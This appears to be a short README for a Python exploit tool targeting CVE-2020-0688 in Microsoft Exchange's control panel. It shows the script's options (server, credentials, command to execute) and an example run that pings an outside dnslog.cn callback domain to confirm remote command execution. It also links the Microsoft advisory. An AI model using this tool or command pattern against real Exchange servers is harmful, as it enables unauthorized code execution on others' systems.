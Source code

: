 # CVE-2020-0688
Usage:
```
usage: cve-2020-0688.py [-h] -s SERVER -u USER -p PASSWORD -c CMD

optional arguments:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        ECP Server URL Example: http://ip/owa
  -u USER, --user USER  login account Example: domain\user
  -p PASSWORD, --password PASSWORD
                        Password
  -c CMD, --cmd CMD     Command u want to execute
```

example:
```
python cve-2020-0688.py -s https://site/owa/ -u user -p pass -c "ping test.ph4nxq.dnslog.cn"
```

[Reference:](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-0688)

[Microsoft_deploying](https://docs.microsoft.com/en-us/officeonlineserver/deploy-office-online-server)
